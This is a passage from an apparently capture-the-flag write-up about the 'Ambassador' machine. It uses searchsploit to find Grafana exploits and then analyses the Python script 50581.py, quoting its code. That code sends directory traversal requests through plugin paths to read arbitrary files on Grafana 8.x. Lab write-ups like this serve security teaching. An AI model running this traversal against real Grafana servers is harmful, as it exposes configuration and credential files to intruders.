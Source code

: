 ### File Read

#### Identify Exploit

`searchsploit` shows two vulnerabilities associated with Grafana:

    
    
    oxdf@hacky$ searchsploit grafana
    ----------------------------------------------------- ---------------------------------
     Exploit Title                                       |  Path
    ----------------------------------------------------- ---------------------------------
    Grafana 7.0.1 - Denial of Service (PoC)              | linux/dos/48638.sh
    Grafana 8.3.0 - Directory Traversal and Arbitrary Fi | multiple/webapps/50581.py
    ----------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    

The one in 8.3.0 is labeled directory traversal and arbitrary file read. That
version is one minor version up from what’s running on Ambassador, which is
close enough that I should try it.

#### Exploit Analysis

I’ll grab a copy of the exploit script to take a look with `searchsploit -m
multiple/webapps/50581.py`.

`main` just takes a host and then passed that to `exploit`:

    
    
    def main():
        parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
        parser.add_argument('-H',dest='host',required=True, help="Target host")
        args = parser.parse_args()
    
        try:
            exploit(args)
        except KeyboardInterrupt:
            return
    

`exploit` drops into a `while True` loop, reading a file, and then fetching it
with a random choice from a long list of plugins:

    
    
    def exploit(args):
        s = requests.Session()
        headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }
    
        while True:
            file_to_read = input('Read file > ')
    
            try:
                url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
                req = requests.Request(method='GET', url=url, headers=headers)
                prep = req.prepare()
                prep.url = url
                r = s.send(prep, verify=False, timeout=3)
    